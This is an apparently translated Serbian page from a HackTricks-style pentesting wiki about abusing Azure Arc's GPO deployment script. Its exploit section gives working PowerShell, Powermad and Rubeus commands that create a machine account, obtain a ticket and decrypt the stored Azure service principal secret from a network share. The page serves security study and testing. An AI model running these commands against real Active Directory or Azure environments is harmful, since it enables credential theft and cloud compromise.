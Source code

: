 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Identifying the Issues

Azure Arc omogućava integraciju novih internih servera (servera pridruženih domenima) u Azure Arc koristeći metodu Grupa Politike. Da bi to olakšao, Microsoft pruža alat za implementaciju potreban za pokretanje procedure uključivanja. Unutar ArcEnableServerGroupPolicy.zip datoteke nalaze se sledeći skripti: DeployGPO.ps1, EnableAzureArc.ps1, i AzureArcDeployment.psm1.

Kada se izvrši, DeployGPO.ps1 skripta obavlja sledeće radnje:

1. Kreira Azure Arc Servers Onboarding GPO unutar lokalnog domena.
2. Kopira EnableAzureArc.ps1 skriptu za uključivanje na određeni mrežni deo kreiran za proces uključivanja, koji takođe sadrži Windows instalacioni paket.

Kada se pokreće ova skripta, sys administratori treba da obezbede dva glavna parametra: **ServicePrincipalId** i **ServicePrincipalClientSecret**. Pored toga, potrebni su i drugi parametri kao što su domen, FQDN servera koji hostuje deo, i naziv dela. Dodatne informacije kao što su ID zakupca, grupa resursa, i druge potrebne informacije takođe moraju biti obezbeđene skripti.

Enkriptovana tajna se generiše u AzureArcDeploy direktorijumu na određenom delu koristeći DPAPI-NG enkripciju. Enkriptovana tajna se čuva u datoteci pod nazivom encryptedServicePrincipalSecret. Dokazi o ovome mogu se naći u DeployGPO.ps1 skripti, gde se enkripcija vrši pozivanjem ProtectBase64 sa $descriptor i $ServicePrincipalSecret kao ulazima. Deskriptor se sastoji od SID-ova grupe Računara Domen i Kontrolera Domen, osiguravajući da se ServicePrincipalSecret može dekriptovati samo od strane Kontrolera Domen i grupa Računara Domen, kako je navedeno u komentarima skripte.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Imamo sledeće uslove:

1. Uspešno smo penetrirali unutrašnju mrežu.
2. Imamo mogućnost da kreiramo ili preuzmemo kontrolu nad računom računara unutar Active Directory.
3. Otkrili smo mrežno deljenje koje sadrži AzureArcDeploy direktorijum.

Postoji nekoliko metoda za dobijanje računa računara unutar AD okruženja. Jedna od najčešćih je iskorišćavanje kvote računa računara. Druga metoda uključuje kompromitovanje računa računara putem ranjivih ACL-ova ili raznih drugih pogrešnih konfiguracija.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Kada se dobije nalog mašine, moguće je autentifikovati se koristeći ovaj nalog. Možemo ili koristiti runas.exe komandu sa netonly flagom ili koristiti pass-the-ticket sa Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Čuvajući TGT za naš korisnički nalog u memoriji, možemo koristiti sledeći skript za dešifrovanje tajne servisnog principala.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativno, možemo koristiti [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

U ovom trenutku, možemo prikupiti preostale informacije potrebne za povezivanje sa Azure iz ArcInfo.json datoteke, koja se čuva na istom mrežnom delu kao i encryptedServicePrincipalSecret datoteka. Ova datoteka sadrži detalje kao što su: TenantId, servicePrincipalClientId, ResourceGroup i još mnogo toga. Sa ovim informacijama, možemo koristiti Azure CLI za autentifikaciju kao kompromitovani servisni principal.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
